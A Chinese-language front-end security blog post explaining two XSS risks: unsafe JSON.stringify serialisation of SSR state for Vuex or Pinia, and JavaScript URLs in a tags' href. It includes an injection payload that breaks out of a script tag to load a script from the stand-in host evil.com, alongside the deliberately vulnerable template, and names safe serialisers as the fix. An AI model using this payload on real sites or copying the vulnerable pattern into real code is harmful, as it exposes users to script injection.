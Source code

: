 ```yaml
---
title: 前端安全之XSS攻击的各种手段
tags:
  - 前端安全
categories:
  - 前端
  - 浏览器
date: 2023-02-06 11:30:47
---
```


# 在 SSR 场景下使用 Vuex 以及 Pinia 初始化状态存在的 XSS 风险

在 SSR 应用中，服务器预取数后，会将预取的数据暴露到全局对象中，以提供给 Vuex 或者是 Pinia 进行初始化调用。

此时，如果服务端预取的数据包含 XSS 攻击内容，则客户端将很容易收到攻击，比如在 SSR 服务中对返回给客户端的 HTML 拼接如下内容：

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

在客户端获取的 HTML 中将会包含：

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"</script><script src='https://evil.com/mwahaha.js'>"};
</script>
```

这样就成功的向客户端加载了 `https://evil.com/mwahaha.js` 的内容。

为了避免此类情况的发生，可以使用 [@nuxt/devalue](https://github.com/nuxt-contrib/devalue) 或者 [serialize-javascript](https://www.npmjs.com/package/serialize-javascript) 解决。

# a 标签的 XSS 攻击

后台可以对某张卡片添加链接，前端将链接绑定在 a 标签的 href 上，但是 a 标签的 href 是可以执行 JavaScript 语句的：

```html
<a href="JavaScript:;"></a>
```

参考：https://security.stackexchange.com/questions/11985/will-javascript-be-executed-which-is-in-an-href